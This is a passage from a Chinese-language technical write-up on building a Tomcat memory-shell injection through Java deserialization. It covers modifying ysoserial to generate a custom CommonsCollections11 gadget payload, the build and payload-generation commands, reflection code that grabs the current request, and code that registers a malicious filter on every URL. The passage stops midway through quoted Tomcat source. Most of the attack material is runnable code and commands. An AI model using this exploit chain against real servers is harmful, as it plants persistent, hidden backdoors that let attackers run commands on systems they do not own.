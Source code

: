 可以看到，第二个传入的Class参数，我们并没有用到javassist，而是直接转字节数组，然后放到TemplatesImpl实例的\_bytecodes字段中了。

最后，回到ysoserial中有调用Gadgets.createTemplatesImpl的payload类中来，我这边对每一个都做了拷贝修改，例如CommonsCollections11，我拷贝其修改后的类为CommonsCollections11ForTomcatEchoInject，在调用`Gadgets.createTemplatesImpl(command[0];`的地方，改成了`final Object templates = Gadgets.createTemplatesImpl(null, TomcatEchoInject.class);`

并且，对ysoserial的main入口做一点小修改，因为原来的代码规定必须要有payload的入参，而我们这里不需要了

ysoserial.GeneratePayload\#main：

    if (args.length < 1) {
        printUsage();
        System.exit(USAGE_CODE);
    }

在ysoserial执行maven指令生成jar包

    mvn clean -Dmaven.test.skip=true compile assembly:assembly

这样，我们就能使用这个新的payload（CommonsCollections11ForTomcatEchoInject）了

    java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections11ForTomcatEchoInject > ~/tmp/TomcatShellInject.ysoserial

#### 步骤二

在使用步骤一生成的序列化数据进行反序列化攻击后，我们就能通过下面这段代码获取到request和response对象了

    java.lang.reflect.Field f = org.apache.catalina.core.ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
    f.setAccessible(true);
    ThreadLocal t = (ThreadLocal) f.get(null);
    //不为空则意味着第一次反序列化的准备工作已成功
    ServletRequest servletRequest = (ServletRequest) t.get()

接着，我们要做的就是动态注册Filter到tomcat中，参考[《动态注册之Servlet+Filter+Listener》](https://www.jianshu.com/p/cbe1c3174d41)，可以看到，其中通过ServletContext对象（实际获取的是ApplicationContext，是ServletContext的实现，因为门面模式的使用，后面需要提取实际实现），实现了动态注册Filter

    javax.servlet.FilterRegistration.Dynamic filterRegistration = servletContext.addFilter("threedr3am", threedr3am);
    filterRegistration.setInitParameter("encoding", "utf-8");
    filterRegistration.setAsyncSupported(false);
    filterRegistration.addMappingForUrlPatterns(java.util.EnumSet.of(javax.servlet.DispatcherType.REQUEST), false, new String[]{"/*"});

然而实际上并不管用，为什么呢？

    private Dynamic addFilter(String filterName, String filterClass, Filter filter) throws IllegalStateException {
        if (filterName != null && !filterName.equals("")) {
          if (!this.context.getState().equals(LifecycleState.STARTING_PREP)) {
            throw new IllegalStateException(sm.getString("applicationContext.addFilter.ise", new Object[]{this.getContextPath()}));
          } else {
            FilterDef filterDef = this.context.findFilterDef(filterName);
            if (filterDef == null) {
              filterDef = new FilterDef();
              filterDef.setFilterName(filterName);
              this.context.addFilterDef(filterDef);
            } else if (filterDef.getFilterName() != null && filterDef.getFilterClass() != null) {
              return null;
            }
